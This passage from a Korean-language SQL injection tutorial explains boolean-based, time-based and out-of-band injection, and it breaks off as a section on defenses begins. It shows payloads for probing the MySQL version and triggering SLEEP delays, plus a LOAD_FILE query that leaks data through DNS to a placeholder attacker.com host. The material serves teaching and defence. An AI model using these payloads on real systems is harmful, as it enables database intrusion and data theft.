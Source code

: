 ```sql
1' AND (SELECT SUBSTRING(version(),1,1)) = '5' --
```

---

공격자는 MySQL 버전이 5.x 인지 확인할 수 있고, 다양한 조건을 통해 시스템 정보를 점진적으로 얻을 수 있다.

### Time-Based(시간 기반) SQL Injection

---

공격자는 특정 **SQL 쿼리의 실행 시간을 조작**함으로써 정보를 얻을 수 있는 방법을 사용한다.

예를 들어, SLEEP(5)과 같은 명령을 삽입하여, 쿼리 실행에 5초의 지연이 발생하게 만들 수 있다.

- 이를 통해 참 혹은 거짓의 결과를 시간 지연을 통해 간접적으로 얻을 수 있다.

```sql
SELECT * FROM users WHERE username = '$user_input';
```

---

공격자가 **$user_input** 에 다음과 같은 값을 입력할 수 있다.

```sql
admin' AND IF(1=1, SLEEP(5), 'false') --
```

---

해당 경우 조건이 참이므로 DB는 5초 동안 대기하게 된다.

### Out-of-Band SQL Injection

---

아웃 오브 밴드 공격은 주로 **DB 서버가 공격자의 서버로 직접 데이터를 전송**하도록 만드는 기법이다.

이를 위해 공격자는 DB 쿼리 내에서 DNS 조회, HTTP 요청 등을 발생시킬 수 있는 SQL 함수를 사용할 수 있다.

예를 들어, 공격자가 다음과 같은 쿼리를 주입할 수 있다.

```sql
SELECT LOAD_FILE(concat('\\\\',(SELECT @@version),'\\.attacker.com\\abc'));
```

---

해당 쿼리에서 LOAD_FILE 함수와 concat 함수를 사용하여 공격자의 도메인으로 MySQL 버전 정보를 포함하는 DNS 조회를 생성한다.

## ⛑️ SQL Injection 대응 방안

---

SQL Injection은 악의적인 사용자가 외부에서 SQL 명령을 주입하여 DB를 조작하려고 시도하는 공격 기법이다.

따라서 이러한 SQL 삽입 공격을 방지하기 위한 대응 방안은 다음과 같다.
